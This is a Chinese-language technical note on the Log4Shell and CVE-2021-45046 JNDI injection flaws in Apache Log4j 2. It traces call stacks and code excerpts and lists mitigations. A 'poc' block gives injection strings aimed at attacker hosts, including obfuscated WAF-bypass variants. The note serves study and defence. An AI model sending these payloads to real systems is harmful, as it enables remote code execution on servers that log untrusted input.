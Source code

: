 ```yaml
---
title: "Log4shell"
author: ["4shen0ne"]
draft: false
---
```


Log4j 2 提供了属性替换特性，在配置文件中可以使用 `${name}` 这样的语法，从文件任意
位置引用属性值。而且为了从不同上下文环境中引用，还支持 `${prefix:name}`, 用 prefix
来指定上下文，然后通过 lookups 特性从远程获取需要的值进行属性替换

官方文档：

1.  <https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution>
2.  <https://logging.apache.org/log4j/2.x/manual/lookups.html>

由于 prefix 支持 [JNDI]({{< relref "jndi.md" >}}), 而且地址(name)是完全可控的，而且 log4j 2 在记录日志时对
${} 语法进行了解析，综上原因导致了极其容易利用的 JNDI 注入

poc:

```nil
# basic
${jndi:ldap://evil.dnslog.cn}

# bypass rc1
${jndi:ldap://127.0.0.1:1389/ badClassName}

# bypass waf
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


## 相关执行流程 {#相关执行流程}

关键流程的调用栈：

```nil
lookup:54, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
...
```

MessagePatternConverter#format 关键代码：

```java
if (this.config != null && !this.noLookups) {
    for(int i = offset; i < workingBuilder.length() - 1; ++i) {
        if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
            String value = workingBuilder.substring(offset, workingBuilder.length());
            workingBuilder.setLength(offset);
            workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
        }
    }
}
```

判断条件中的 this.noLookups 由后面提到的 formatMsgNoLookups 属性来设置

遇到 `${` 开头的字符串会进入 StrSubstitutor 对模板语法进行解析，解析逻辑和 waf
bypass 的构造有关联，然后在 Interpolator#lookup 处理并发送 JNDI 请求


## 修复 {#修复}

Log4j 提供了 formatMsgNoLookups 属性来禁用 lookups 特性，可以通过下述方式设置：

1.  jvm 参数 -Dlog4j2.formatMsgNoLookups=true
2.  配置文件设置 log4j2.formatMsgNoLookups=True
3.  环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true

高版本 JDK 提供了 com.sun.jndi.ldap.object.trustURLCodebase 属性且默认为 false,
JVM 不会信任 [LDAP]({{< relref "ldap.md" >}}) 对象反序列化过程中从远程 [codebase]({{< relref "java_codebase.md" >}}) 加载的类。但是依然可以利用本
地类的反序列化 gadget 进行利用


## CVE-2021-45046 {#cve-2021-45046}

Log4j 2 有一个概念是线程上下文(Thread Context), 主要是用来区分和追踪不同客户端的
相关日志，并通过 Thread Context Map 和 Thread Context Stack 两个机制来存储相关标
记，而 PatternLayout 提供了相关的机制来获取线程上下文中存放的键值

官方文档：<https://logging.apache.org/log4j/2.x/manual/thread-context.html>

在 PatternLayout 获取 ThreadContext 的值时，如果包含 `${}` 表示的变量就会进行解析，
而且解析过程不受 formatMsgNoLookups 属性的限制，造成 JNDI 注入。但前提是攻击者有
办法控制 ThreadContext 中的数据

关键流程：

```nil
lookup:54, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup) [2]
substitute:1042, StrSubstitutor (org.apache.logging.log4j.core.lookup) [1]
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:60, LiteralPatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
...
```

LiteralPatternConverter 的关键代码如下：

```java
public LiteralPatternConverter(final Configuration config, final String literal, final boolean convertBackslashes) {
    super("Literal", "literal");
    this.literal = convertBackslashes ? OptionConverter.convertSpecialChars(literal) : literal;
    this.config = config;
    this.substitute = config != null && literal.contains("${");
}

public void format(final LogEvent event, final StringBuilder toAppendTo) {
    toAppendTo.append(this.substitute ? this.config.getStrSubstitutor().replace(event, this.literal) : this.literal);
}
```

如果 literal 属性包含 `${`, 就进入 StrSubstitutor#replace 方法导致注入

相关项目：<https://github.com/Cybereason/Logout4Shell>
